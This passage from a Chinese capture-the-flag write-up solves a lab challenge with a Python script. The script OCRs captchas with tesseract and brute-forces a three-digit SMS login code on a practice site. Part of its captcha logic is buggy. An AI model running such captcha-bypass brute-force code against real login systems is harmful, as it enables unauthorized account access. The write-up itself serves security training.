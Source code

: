 167 -------正确
你伤心的发现他/她正在跟你的前男/女友勾搭.....于是下决心看看前任除了跟你的（男/女）闺蜜勾搭，是不是还跟别的勾搭..<br>前任的手机号码是:13399999999
找到前任了，再把这个手机号码替换到代码中去爆破：

## 第十一题：
>验证码识别 分值: 350 
验证码识别
Tips:验证码依然是3位数
[地址]:(http://lab1.xseclab.com/vcode7_f7947d56f22133dbc85dda4f28530268/index.php)

需要安装tesseract-ocr模块，通过tesseract来识别验证码,代码如下：
```python
#!/usr/bin/env python
# -*- coding: utf-8 -*-
# @Date    : 2017-09-16 14:41:09
# @Word    : python can change world!
# @Version : python3.6

import requests
import re
import pytesseract
from PIL import Image
import urllib.request
import sys

s=requests.Session()
url="http://lab1.xseclab.com/vcode7_f7947d56f22133dbc85dda4f28530268/login.php"
head={'cookie':'PHPSESSID=844e5142519e671ce9180b9a47588675'}

def main():
    num=100
    while num<1000:
        code=get_code()
        get_url(num, code)
        num+=1

def get_code():
    urllib.request.urlretrieve('http://lab1.xseclab.com/vcode7_f7947d56f22133dbc85dda4f28530268/vcode.php','1.png')
    code=pytesseract.image_to_string(Image.open('1.png'))
    code=code.replace(' ','')
    #print(code)
    try:
        if len(code)==4:
        
            print('验证码是',code)
            return code
            #print(code)
        else:
            print("重新获取验证码！")
            get_code()

    except UnicodeEncodeError:
        pass
        

def get_url(num,code):
    data={'username':'13388886666','mobi_code':num,'user_code':code,'Login':'submit'}
    res=s.post(url,data=data,headers=head).content.decode('utf-8')

    if u'error' not in res:

        print(res,'密码是',num)
        sys.exit()
```